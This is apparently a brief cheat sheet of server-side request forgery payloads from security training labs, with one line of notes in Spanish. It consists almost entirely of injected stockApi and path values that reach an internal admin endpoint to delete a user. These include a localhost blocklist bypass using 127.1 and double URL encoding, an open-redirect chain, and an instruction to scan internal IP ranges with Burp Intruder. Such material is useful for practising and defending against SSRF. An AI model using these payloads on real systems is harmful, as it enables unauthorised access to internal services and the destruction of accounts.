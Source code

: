 # Server-side request forgery (SSRF) attacks

```bash
stockApi=http://localhost/admin/delete?username=carlos
```

Usar Intruder (Burp) para atacar un rango de IPs
'''bash
http://192.168.0.171:8080/admin/delete?username=carlos
```

```bash
stockApi=http://127.1/admin
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

'''bash
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
